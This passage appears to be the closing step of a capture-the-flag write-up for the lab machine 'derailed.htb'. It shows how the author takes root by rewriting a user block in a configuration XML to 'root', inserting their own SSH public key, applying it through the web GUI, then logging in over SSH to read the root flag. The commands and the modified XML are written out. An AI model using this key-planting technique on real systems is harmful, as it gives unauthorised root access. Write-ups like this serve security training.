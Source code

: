 We just have to change the block for the user `test` to user `root` add our ssh key and visit the Web GUI to apply our changes

```bash
# Generate SSH Keys
ssh-keygen -t rsa
# Convert to RFC4716 Format
ssh-keygen -e -f id_rsa.pub
```

```xml
<user>
<uuid>xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx</uuid>
<name>root</name>
<email></email>
<disallowusermod>0</disallowusermod>
<sshpubkeys>
<sshpubkey>---- BEGIN SSH2 PUBLIC KEY ----
Comment: "3072-bit RSA, converted by mrk@parrot from OpenSSH"
AAAAB3NzaC1yc2EAAAADAQABAAABgQDBIB5L7CoUUtERwWgHCEqXgxJxkKQfTlQYKWhVsO
H0r5YMGjjNNuUf7pDVUnp3tEPJ/nXjOJtCk/X5v4s0/CMFwbCqggWZ0KLcdVXcDOgWce9U
+Acjt9XELRzMfJyHB3q1jgOQm9M5dIAif0+fhIupCTjoFVB4z/MrlDkGOBiFbcMG3ccT8w
slhafd+x+ldflKei18SwatzgtRtw2yKAeiuubqKcB1RyLwZQPO+RgDpsV2LNCG2w7FjiKQ
6Og/fvyCktnQk844Ex6/xsQM3wYejImeTuvhY85/T/SUrE7ay9xhwn2Ev/q1oJV4KlwLTo
3Ggbbva6SWvZ061vZfSQML4AhG27zTaJ8G7bkck0ejMX7q+ibmoiF5Qj7GIepK6fhmQqu2
hwzLH8i58K8wCN6Y4rjkBqk0p5psho0DbOIZPxVDq1e8Ht37X5HnxyAaIhdB6xLh5VhRIr
pUeUdYAY45yrP7WQhHWZXfEWyslUhi8WpwgHrlqasUWwuIyyZ38O0=
---- END SSH2 PUBLIC KEY ----</sshpubkey>
</sshpubkeys>
</user>
```

# Rooted

```bash
# Just use ssh with our priv key
ssh -i ./id_rsa root@derailed.htb
# Flag
cat /root/root.txt
```
